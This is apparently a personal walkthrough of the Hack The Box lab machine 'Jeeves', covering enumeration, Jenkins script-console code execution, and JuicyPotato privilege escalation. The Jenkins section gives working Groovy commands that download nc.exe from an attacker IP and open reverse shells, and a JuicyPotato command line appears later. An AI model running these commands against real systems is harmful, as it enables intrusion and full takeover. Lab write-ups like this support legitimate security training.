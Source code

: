 Hack The Box "Jeeves"
## Helpful Links
- https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6
- https://coldfusionx.github.io/posts/Groovy_RCE/
- https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato
- http://ohpe.it/juicy-potato/CLSID/Windows_10_Pro/

# Initial Nmap Scan
![Pasted image 20230220162305](https://user-images.githubusercontent.com/71300144/220213851-3cd9fd74-8c59-4f11-b406-5131ddd697a5.png)


# Try to Connect ot SMB

![Pasted image 20230220163533](https://user-images.githubusercontent.com/71300144/220213942-60b262c7-be87-4cfc-9e98-e05f9dcb0363.png)
- That was a no go, so I decided to look at other options

# Website on 80

![Pasted image 20230220162401](https://user-images.githubusercontent.com/71300144/220213985-e4f9537e-ec02-4fbf-b231-4979993cb796.png)

Anytime you enter anything into the search you automatically get a picture output of

![Pasted image 20230220162455](https://user-images.githubusercontent.com/71300144/220214043-a9990b86-3d7c-4ee4-b592-52d68fcd6a5c.png)
- I tried to catpure the traffic to see what was going on but the search does not request anything, it just goes right to this picture so I did not even try sql injection. I think this was put here to throw you off and go down a rabbit hole

- I tried gobuster and came up with nothing so the next thing to do was check out the other website on port 50000

# Website on 50000

![Pasted image 20230220162652](https://user-images.githubusercontent.com/71300144/220214071-8485672a-fc12-4aec-9d41-5d6407ff0c69.png)
- again there was nothing, I used searchsploit to look up jetty and version, but came up with nothing. 
	- I did not spend long on this as Wappalyzer did not actually pick up on any software called jetty on the site.
- I then tried a couple manual directory guessing jeeves, jetty, etc.
	- came up with nothing
- I decided to use gobuster to see if there are any directoryies

## Found askjeeves Directory

![Pasted image 20230220163810](https://user-images.githubusercontent.com/71300144/220214116-f8e2ecf9-5f40-467f-b0b3-bf74f48437ea.png)
- Browsing to askjeeves

![Pasted image 20230220163942](https://user-images.githubusercontent.com/71300144/220214163-439cc02b-c016-4c3e-ad1c-aacf4e7abcad.png)

- I then Went and looked up jenkins script execution found an article and followed it. https://coldfusionx.github.io/posts/Groovy_RCE/
	- Go to Jenkins > manage jenking > script console

![Pasted image 20230220164741](https://user-images.githubusercontent.com/71300144/220214222-14711873-e344-4a7c-a903-cdc4804d46ed.png)
- First method in the blog did not work, so I went with method 2
	- First tested if I had command execution
	
	`def cmd = "cmd.exe /c dir".execute();println("${cmd.text}");`
	
	- Then uploaded nc on to target machine
	
	`def process = "powershell -command Invoke-WebRequest 'http://10.10.14.11:8080/nc.exe' -OutFile nc.exe".execute(); println("${process.text}");`
	
	- Then Executed nc on target machine
	
	`def process = "powershell -command ./nc.exe 10.10.14.11 9001 -e cmd.exe".execute(); println("${process.text}");`

# Post Enumeration and Privesc

![Pasted image 20230220164712](https://user-images.githubusercontent.com/71300144/220214415-73b3a012-a2ae-4c67-bd25-b1268f6342c4.png)

- When I logged on and got a shell I checked who I was and then the privileges I had.
- seImpersonatePrivilege was enabled which propted me to start looking into a potato attacks. I found the following github and downloaded the executable
	- https://github.com/ohpe/juicy-potato/releases
- certutil was not available on the shell neither was curl or wget, I tried dropping into powershell, but that was unresponsive.
- I then deciede to upload wget.exe from my attacker machine to the target machine with the same method I used to get nc.exe on the system through Jenkins
- Once wget.exe was downloaded on the system I used it to get the JuicyPotato.exe I downloaded off of gethub
- I realize I could have just dropped the JuicyPotato.exe onto the machine instead of wget but I figured it would be annoying to have to keep going back to Jenkins and running the same command over and over again if I needed anything else on the system, so wget was a better option.

![Pasted image 20230220165623](https://user-images.githubusercontent.com/71300144/220214390-4f1d31b9-ff41-49a4-976f-36ea35734116.png)

- I then followed the blog on hacktricks to get the JuicyPotato exploit to work
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato

The biggest part of this picking a **CLSID that works I tried about 5 or six then decided to use the one provided in the example, and it worked. The one provided in the example was luckily a windows 10 professional CLSID. The target box was a based on `systeminfo` command. They used the BITS CLSID. You can find it on http://ohpe.it/juicy-potato/CLSID/Windows_10_Pro/

`.\JuicyPotato.exe -l 6666 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\Users\Administrator\.jenkins\nc.exe -e cmd.exe 10.10.14.8 443" -t *`


![Pasted image 20230220170336](https://user-images.githubusercontent.com/71300144/220214465-25095627-5e0b-497f-982e-cd909ecc9e09.png)

- Catch the connection with your netcat listener

![Pasted image 20230220170446](https://user-images.githubusercontent.com/71300144/220214505-c7f0145a-775c-4c9a-a385-43fc6d7fdd22.png)

## Box Owned!!!

***

## Notes afterwards

### Alternate Data Streams
- The root flag was hidden in an alternate data stream
- An alternate data stream can be found by listing the directory and providing the `dir \r ` 
- type is not capable of opening this type of file so you have to use more
	`more < hm.txt:root.txt`

![InkedPasted image 20230220170902](https://user-images.githubusercontent.com/71300144/220214671-3895c462-38b1-4a39-8403-f9e1080b22f8.jpg)

